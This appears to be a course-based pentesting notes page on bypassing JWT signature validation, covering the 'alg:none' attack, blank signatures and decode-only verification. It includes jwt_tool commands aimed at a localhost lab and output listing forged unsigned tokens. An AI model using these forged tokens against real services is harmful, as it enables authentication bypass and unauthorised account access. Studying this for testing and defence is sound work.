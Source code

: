 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Signature Validation

Servers don't store any JWT-related information, thus, **they don't know anything about its contents**.

## None Algorithm

After obtaining a JWT, we can start by auditing it by using an endpoint which process the token in some way, i.e., sends back different responses if the token is and it isn't present (Figure 1).

The JWT header contains an `alg` parameter which tells the server which algorithm was used to sign the token, i.e., which alogirthm it needs to use when veryfing the signature. **This is inherently flawed as it is user-controlled**. JWTs can be also left unsigned using `"alg":"none"`, aka _**unsecure JWT**_. Servers usually reject this tokens, but since this relies on string parsing, it can be obfuscated.

{% hint style="danger" %}
Even if the token is unsigned, **the payload part must end with a trailing dot**.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation.png" alt=""><figcaption><p>Figure 1: Finding an appropriate endpoint.</p></figcaption></figure>

We can then audit the JWT (Figure 2).

{% code overflow="wrap" %}
```bash
$ jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0X3RjbUBnbWFpbC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxOTI5NjM4OCwiZXhwIjoxNzE5OTAxMTg4fQ.BlO4H5UQM_maTkbRtwBhGags2DSIXxOI-mvUW1A4IRBb0VLshF_xIP74Rm-e1BjhyCKHqIuRp9GKRlse4CgY2CwpiNYbDFrbnYLNvfqzOoc1VRs-sUbhpq24h4mIZK1OJ3Jktd3fwMWEd1MolUFtO8WgaI0NVXwdi0jStFVXbnwZ0MU-HzOW7sK1aUCBuI6hAqrsZMf0iXYl5qhjGIDQ8VLcOPAhdr4-Yf-S4B2dhxjx2dxFZYZHvZAeZ4FHEkJa-IlDCeE_OmIKyQKF_03CRmKB0KHrX5TBxgitzDraSgoeKjeI-E8Zz7cchxK53otrD0tKbNEHC_N2p1cGrts_BQ' -M at
```
{% endcode %}

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation_1.png" alt=""><figcaption><p>Figure 2: Auditing the JWT using <code>jwt_tool</code>.</p></figcaption></figure>

We could then use Burp's [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) extension to validate the `alg:none` vulnerability (Figure 3 & 4).

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation_2.png" alt=""><figcaption><p>Figure 3: Validating the <code>alg:none</code> attack.</p></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/jwt_sign_validation_3.png" alt=""><figcaption><p>Figure 4: The server sends a <code>200</code> without validating the JWT signature (BOLA).</p></figcaption></figure>

## Blank Signature

We can generate a token without a signature and see how the server responds.

> _The below example is based on APISEC University's course_ [_API Penetration Testing_](https://www.apisecuniversity.com/courses/api-penetration-testing)_._

{% code overflow="wrap" %}
```bash
$ jwt_tool.py <JWT> -X a

Original JWT:

jwttool_a7333a823ae2439cb9a1f625cf57874a - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_ba16d4490898e1a275865d6054d29218 - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOb25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_933d31b931b0cde418923bd086cb24b8 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOT05FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_779c72e9bb024b8feebb000aaf8f8b96 - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.

# Copy this token to a request and see how it responds
```
{% endcode %}

## Arbitraty Signature

JWT libraries usually provide 2 methods, one for verification and one for decoding. For example, Node.js's `jsonwebtoken` library has the `verify()` and `decode()` methods. If a developer only use the latter the application won't verify the signature at all. In this case, it is possible to modify a claim directly (Figure 5).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../../.gitbook/assets/jwt_arbitraty_sign.png" alt=""><figcaption><p>Figure 5: Modifying the <code>sub</code> claim results in an altered signature which is accepted by the server.</p></figcaption></figure>
